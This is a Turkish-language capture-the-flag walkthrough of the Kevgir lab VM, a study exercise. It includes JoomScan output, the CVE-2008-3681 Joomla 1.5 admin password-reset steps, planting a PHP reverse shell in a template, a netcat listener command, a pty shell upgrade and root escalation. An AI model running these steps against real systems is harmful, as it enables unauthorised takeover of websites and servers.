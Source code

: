 Nmap taraması sonucunda  8081 portunda bir http servisinin çalıştığını görmüştük. 

`8081/tcp open  http        Apache httpd 2.4.7 ((Ubuntu))` 

![[KevgirJoomla.png]]

Joomscan aracı ile taramayı gerçekleştiriyoruz. 

```

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.0.2.11:8081 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 1.5

[+] Core Joomla Vulnerability
[++] Joomla! 1.5 Beta 2 - 'Search' Remote Code Execution
EDB : https://www.exploit-db.com/exploits/4212/

Joomla! 1.5 Beta1/Beta2/RC1 - SQL Injection
CVE : CVE-2007-4781
EDB : https://www.exploit-db.com/exploits/4350/

Joomla! 1.5.x - (Token) Remote Admin Change Password
CVE : CVE-2008-3681
EDB : https://www.exploit-db.com/exploits/6234/

Joomla! 1.5.x - Cross-Site Scripting / Information Disclosure
CVE: CVE-2011-4909
EDB : https://www.exploit-db.com/exploits/33061/

Joomla! 1.5.x - 404 Error Page Cross-Site Scripting
EDB : https://www.exploit-db.com/exploits/33378/

Joomla! 1.5.12 - read/exec Remote files
EDB : https://www.exploit-db.com/exploits/11263/

Joomla! 1.5.12 - connect back Exploit
EDB : https://www.exploit-db.com/exploits/11262/

Joomla! Plugin 'tinybrowser' 1.5.12 - Arbitrary File Upload / Code Execution (Metasploit)
CVE : CVE-2011-4908
EDB : https://www.exploit-db.com/exploits/9926/

Joomla! 1.5 - URL Redirecting
EDB : https://www.exploit-db.com/exploits/14722/

Joomla! 1.5.x - SQL Error Information Disclosure
EDB : https://www.exploit-db.com/exploits/34955/ 

Joomla! - Spam Mail Relay
EDB : https://www.exploit-db.com/exploits/15979/

Joomla! 1.5/1.6 - JFilterInput Cross-Site Scripting Bypass
EDB : https://www.exploit-db.com/exploits/16091/

Joomla! < 1.7.0 - Multiple Cross-Site Scripting Vulnerabilities
EDB : https://www.exploit-db.com/exploits/36176/

Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution
CVE : CVE-2015-8562
EDB : https://www.exploit-db.com/exploits/38977/

Joomla! 1.0 < 3.4.5 - Object Injection 'x-forwarded-for' Header Remote Code Execution
CVE : CVE-2015-8562 , CVE-2015-8566 
EDB : https://www.exploit-db.com/exploits/39033/

Joomla! 1.5.0 Beta - 'pcltar.php' Remote File Inclusion
CVE : CVE-2007-2199
EDB : https://www.exploit-db.com/exploits/3781/

Joomla! Component xstandard editor 1.5.8 - Local Directory Traversal
CVE : CVE-2009-0113
EDB : https://www.exploit-db.com/exploits/7691/



[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.0.2.11:8081/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.0.2.11:8081/robots.txt 

Interesting path found from robots.txt
http://10.0.2.11:8081/administrator/
http://10.0.2.11:8081/cache/
http://10.0.2.11:8081/components/
http://10.0.2.11:8081/images/
http://10.0.2.11:8081/includes/
http://10.0.2.11:8081/installation/
http://10.0.2.11:8081/language/
http://10.0.2.11:8081/libraries/
http://10.0.2.11:8081/media/
http://10.0.2.11:8081/modules/
http://10.0.2.11:8081/plugins/
http://10.0.2.11:8081/templates/
http://10.0.2.11:8081/tmp/
http://10.0.2.11:8081/xmlrpc/

```


Tespit edilen CVE kodlarında CVE-2008-3681 kullanarak uzaktan admin parolasını değiştireceğiz. 

CVE-2008-3681 için referans gösterilen Exploit-db de zafiyeti sömürebilmek için aşağıda ki yönerge verilmişit. 

```

1. Go to url : target.com/index.php?option=com_user&view=reset&layout=confirm

2. Write into field "token" char ' and Click OK.

3. Write new password for admin

4. Go to url : target.com/administrator/

5. Login admin with new password

```


#### Birinci Adım 

`http://10.0.2.11:8081//index.php?option=com_user&view=reset&layout=confirm`

![[KevgirJoomlaResetAdmin.png]]

#### İkinci Adım

Kullanıcıdan istenen token yerine '  koyarak işleme devam ediyoruz. 

#### Üçüncü Adım 

Direkt olarak kullanıcı şifre değişikliğine ulaştık ve şifremizi değiştirdik. 

![[KevgirPassReset.png]]

Admin parolamızı değiştirdik. Web yönetim paneli aracılığıyla shell alarak sistem içersine sızacağız. 


Web yönetim panelini joomscan aracılığyla tespit etmiştik .
```
Interesting path found from robots.txt
http://10.0.2.11:8081/administrator/
```


![[Kevgir.png]]


Değiştirdiğimiz admin şifresi ile sisteme giriş yapıyoruz ve bizi Joomla yönetim paneli karşılıyor. 

Yönetim panelinde Extensions/Template Manager mevcut templateleri görebiliyoruz. 

![[KevgirTemplateMan.png]]

beez şablonunu editliyoruz. Beez php uzantısında olduğundan php ye uygun reverse shell düzenleyerek sistem içerisine sızacağız. Beez şablonuna girip Edit HTML  ile mevcut kodların yerine php reverse shell kodlarımızı ekleyeceğiz. 


![[KevgirJoomlaRevers.png]]

Kayıt işlemini gerçekleştirdikten sonra netcat aracımız ile bağlantı sağlayacağımız portu dinliyoruz. 

`nc -lvnp 9001`

Beez şablon düzenleme sayfamızda Preview diyerek shell dosyamıız çalıştırıyoruz. 

![[KevgirNetcat.png]]

``python3 -c 'import pty; pty.spawn("/bin/bash")'`` komutuyla birlikte bash kabuğumuzu aktifleştiriyoruz. Yetki yükseltmek için sisteme zaten exploit yüklemiştik. Aynı exploiti kullanarak yetkimizi yükseltiyoruz sistem içerinde root oluyoruz. 

![[KEvgirJoomlaRoot.png]]